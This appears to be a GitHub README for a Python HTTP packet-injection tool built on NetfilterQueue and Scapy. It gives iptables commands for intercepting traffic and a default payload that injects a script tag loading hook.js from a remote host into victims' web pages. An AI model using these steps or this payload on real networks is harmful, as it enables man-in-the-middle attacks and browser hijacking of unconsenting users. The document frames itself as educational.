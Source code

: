 # HTTP Packet Injection Script

This Python script demonstrates HTTP packet injection by modifying HTTP requests and responses. It uses the NetfilterQueue library to intercept packets and Scapy to analyze and modify them. This script is designed for educational purposes, such as understanding network packet manipulation and testing security systems.

## Features
- Intercepts HTTP packets using `netfilterqueue`.
- Strips HTTP request headers like `Accept-Encoding` to disable compression.
- Injects custom JavaScript code into HTTP responses.
- Dynamically updates the `Content-Length` header to reflect the modified payload.

## Requirements
- Python 3
- The following Python libraries:
  - `netfilterqueue` (Install with `pip install netfilterqueue`)
  - `scapy` (Install with `pip install scapy`)
- Linux-based operating system with `iptables` configured.

## How to Use
1. **Set up `iptables` rules:**
   Use the following commands to redirect traffic to the NetfilterQueue:
   ```bash
   sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
   sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0
   sudo iptables -I INPUT -j NFQUEUE --queue-num 0
   ```
   Adjust the rules depending on whether you want to process incoming, outgoing, or forwarded traffic.

2. **Run the script as root:**
   ```bash
   sudo python packet_injection.py
   ```

3. **Stop the script and reset `iptables`:**
   After stopping the script, reset the `iptables` rules using:
   ```bash
   sudo iptables --flush
   ```

## Code Overview
1. **Interception:**
   - The script uses `netfilterqueue` to intercept packets.
   - The `process_packet` function processes each packet received from the queue.

2. **Modification:**
   - Requests: Removes the `Accept-Encoding` header to disable compression.
   - Responses: Injects JavaScript code (`<script>` tag) before the `</body>` tag in HTML responses.

3. **Dynamic Updates:**
   - Adjusts the `Content-Length` header to account for the additional payload size.

### Example Injection Code
The default injection code is:
```html
<script src="http://192.168.68.137:3000/hook.js"></script>
```
Replace the URL with your desired script source if needed.

## Example Output
```plaintext
[+] Request
[+] Response
```

## Limitations
- Works only with unencrypted HTTP traffic (not HTTPS).
- Requires root privileges and appropriate `iptables` rules.
- May interfere with other applications relying on the same network traffic.

## Disclaimer
This script is intended for educational and legal purposes only. Unauthorized interception or modification of network traffic is illegal and unethical. Use this tool only in environments where you have explicit permission.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

